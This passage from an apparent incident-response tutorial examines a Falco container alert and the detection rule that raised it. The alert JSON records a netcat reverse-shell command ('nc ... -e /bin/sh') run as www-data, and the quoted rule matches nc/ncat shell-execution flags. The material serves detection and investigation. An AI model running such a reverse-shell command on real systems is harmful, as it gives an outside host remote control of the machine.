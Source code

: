 ### The Scene
Moving on to a more practical example let's pretend that we get an alert from a Falco agent running on a host. In fact several alerts are generated for this behavior, but for our purposes just the one will be enough to kick of this investigation. Falco is a great tool and free to use. The fact that it is container aware makes very helpful when looking to detect suspicious and malicious behavior in a container environment. The alert which was generated is below:

```json
{
  "output": "21:39:47.159547041: Warning Netcat runs inside container that allows remote code execution (user=www-data user_loginuid=-1 command=nc 172.31.93.20 9876 -e /bin/sh container_id=60795d68fdee container_name=eloquent_babbage image=webapp:v1.0)",
  "priority": "Warning",
  "rule": "Netcat Remote Code Execution in Container",
  "source": "syscall",
  "tags": [
    "mitre_execution",
    "network",
    "process"
  ],
  "time": "2022-05-10T21:39:47.159547041Z",
  "output_fields": {
    "container.id": "60795d68fdee",
    "container.image.repository": "webapp",
    "container.image.tag": "v1.0",
    "container.name": "eloquent_babbage",
    "evt.time": 1652218787159547100,
    "proc.cmdline": "nc 172.31.93.20 9876 -e /bin/sh",
    "user.loginuid": -1,
    "user.name": "www-data"
  }
}
```

The rule name is `Netcat Remote Code Execution in Container` (ruh roh). In the output fields section we can see all kinds of useful information such as data about the image, the running container name, the command line associated with the alert, and the user that ran the command. Looking at the [rule](https://github.com/falcosecurity/falco/blob/master/rules/falco_rules.yaml#L2462) syntax it is a fairly simple rule.

```bash
 spawned_process and container and
    ((proc.name = "nc" and (proc.args contains "-e" or proc.args contains "-c")) or
     (proc.name = "ncat" and (proc.args contains "--sh-exec" or proc.args contains "--exec" or proc.args contains "-e "
                              or proc.args contains "-c " or proc.args contains "--lua-exec"))
    )
```

The output for the rule is:
```bash
output: >
    Netcat runs inside container that allows remote code execution (user=%user.name user_loginuid=%user.loginuid
    command=%proc.cmdline container_id=%container.id container_name=%container.name image=%container.image.repository:%container.image.tag)
```
